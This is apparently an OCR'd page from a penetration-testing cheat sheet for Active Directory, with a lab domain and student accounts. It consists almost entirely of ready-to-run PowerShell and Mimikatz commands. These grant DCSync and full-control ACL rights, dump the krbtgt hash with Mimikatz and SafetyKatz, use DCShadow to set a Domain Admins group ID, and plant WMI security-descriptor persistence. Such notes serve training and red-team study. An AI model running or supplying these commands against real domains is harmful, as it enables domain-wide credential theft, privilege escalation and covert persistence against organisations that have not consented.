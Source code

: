 ```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

#### Add FullControl rights with Active Directory Module and RACE

```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
```

#### Add DCSync Rights with Powerview

```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

#### Add DCSync Rights with ActiveDirectory Module and Race

```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```
#### Execute DCSync

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
#### Execute DCShadow
```powershell
token::elevate
lsadump::dcshadow /object:"CN=Bob,OU=Users,DC=Domain,DC=com" /attribute: description /value "DCShadow was here"
lsadump::dcshadow /object:"CN=Bob,OU=Users,DC=Domain,DC=com" /attribute: primaryGroupID /valueL 512
lsadump::dcshadow /push
```

### Persistence Using ACLs - Security Descriptors

#### RACE Toolkit
```powershell
. C:\AD\Tools\RACE-master\RACE.ps1
```

#### Security Descriptor - WMI

##### On a local machine
```powershell
Set-RemoteWMI -SamAccountName student1 -Verbose
```
